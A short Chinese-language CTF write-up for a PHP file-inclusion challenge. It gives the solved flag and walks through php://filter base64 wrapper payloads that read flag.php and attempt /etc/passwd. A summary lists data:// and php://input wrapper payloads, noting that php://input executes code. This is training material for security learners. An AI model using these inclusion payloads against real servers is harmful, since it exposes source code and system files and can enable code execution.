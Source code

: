```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_1_solved}`

## 思路
1. 访问环境时注意参数`?p=hello`，可以遍历一下命令`cmd、ls、whoami、flag`等，当输入**flag**时，提示nonono，开始尝试php伪协议。  
**此处p=hello表示的应该是指向hello.php文件**
![](./images/afr1.png)
2. 这里我首先通过伪协议判断能不能读取/etc/passwd，没有反馈，在这里卡了很久  
`php://filter/read=convert.base64-encode/resource=/etc/passwd`
3. 后来修改/etc/passwd为flag，获得base64码  
`PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9`
4. 解码得到`flag.php`
```php
<?php
die('no no no');
//n1book{afr_1_solved}
```
5. 同理`hello.php`，与之前猜测一致
```php
<?php

echo "hello world!";
```

## 总结
这种题目一定要抓住关键词，本题给了**hello关键字**，应该立马联想到伪协议读取hello，然后再读取passwd等文件  
[php伪协议漏洞](https://www.smi1e.top/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E4%B8%8Ephp%E4%BC%AA%E5%8D%8F%E8%AE%AE/)  
**data伪协议写入文件，php://filter用于读取源码，php://input用于执行php代码**
- file=php://filter/read=convert.base64-encode/resource=useless.php
- text=data://text/plain,welcome to the zjctf
- text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=